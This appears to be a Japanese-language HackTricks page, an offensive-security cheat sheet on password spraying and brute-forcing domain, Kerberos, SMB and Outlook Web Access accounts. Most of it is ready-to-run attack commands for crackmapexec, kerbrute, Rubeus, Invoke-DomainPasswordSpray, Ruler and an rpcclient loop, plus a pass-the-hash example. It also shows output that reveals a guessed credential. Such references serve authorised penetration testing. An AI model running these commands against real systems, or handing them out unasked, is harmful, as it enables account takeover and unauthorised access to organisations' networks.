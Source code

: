 # パスワードスプレイ / ブルートフォース

{{#include ../../banners/hacktricks-training.md}}

## **パスワードスプレイ**

いくつかの**有効なユーザー名**を見つけたら、発見した各ユーザーに対して最も**一般的なパスワード**を試すことができます（環境のパスワードポリシーを考慮してください）。\
**デフォルト**では、**最小****パスワード****長**は**7**です。

一般的なユーザー名のリストも役立つかもしれません: [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

いくつかの間違ったパスワードを試すと**アカウントがロックアウトされる可能性がある**ことに注意してください（デフォルトでは10回以上）。

### パスワードポリシーを取得する

ユーザーの資格情報やドメインユーザーとしてのシェルがある場合は、**次のコマンドでパスワードポリシーを取得できます**:
```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10;
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```
### Linuxからの悪用（またはすべて）

- **crackmapexec**を使用して：
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```
- [**kerbrute**](https://github.com/ropnop/kerbrute) (Go) を使用して
```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```
- [**spray**](https://github.com/Greenwolf/Spray) _**(ロックアウトを避けるために試行回数を指定できます):**_
```bash
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```
- [**kerbrute**](https://github.com/TarlogicSecurity/kerbrute)（Python）を使用 - 推奨されません、時々機能しないことがあります
```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```
- `scanner/smb/smb_login` モジュールを使用して **Metasploit**:

![](<../../images/image (745).png>)

- **rpcclient** を使用して:
```bash
# https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/
for u in $(cat users.txt); do
rpcclient -U "$u%Welcome1" -c "getusername;quit" 10.10.10.10 | grep Authority;
done
```
#### From Windows

- [Rubeus](https://github.com/Zer1t0/Rubeus)のブルートモジュールを使用したバージョン:
```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
- [**Invoke-DomainPasswordSpray**](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) を使用すると（デフォルトでドメインからユーザーを生成し、ドメインからパスワードポリシーを取得し、それに応じて試行回数を制限します）：
```bash
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
- [**Invoke-SprayEmptyPassword.ps1**](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1) を使用して
```
Invoke-SprayEmptyPassword
```
## ブルートフォース
```bash
legba kerberos --target 127.0.0.1 --username admin --password wordlists/passwords.txt --kerberos-realm example.org
```
## Outlook Web Access

Outlookに対するp**assword spraying**のための複数のツールがあります。

- [MSF Owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)
- [MSF Owa_ews_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login/)
- [Ruler](https://github.com/sensepost/ruler) (信頼性あり!)
- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Powershell)
- [MailSniper](https://github.com/dafthack/MailSniper) (Powershell)

これらのツールを使用するには、ユーザーリストとパスワードまたは小さなパスワードリストが必要です。
```bash
./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
[x] Failed: larsson:Summer2020
[x] Failed: cube0x0:Summer2020
[x] Failed: a.admin:Summer2020
[x] Failed: c.cube:Summer2020
[+] Success: s.svensson:Summer2020
```
## Google

- [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)

## Okta

- [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)
- [https://github.com/Rhynorater/Okta-Password-Sprayer](https://github.com/Rhynorater/Okta-Password-Sprayer)
- [https://github.com/knavesec/CredMaster](https://github.com/knavesec/CredMaster)

## References

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying)
- [https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell](https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell)
- [www.blackhillsinfosec.com/?p=5296](https://www.blackhillsinfosec.com/?p=5296)
- [https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying](https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying)


{{#include ../../banners/hacktricks-training.md}}
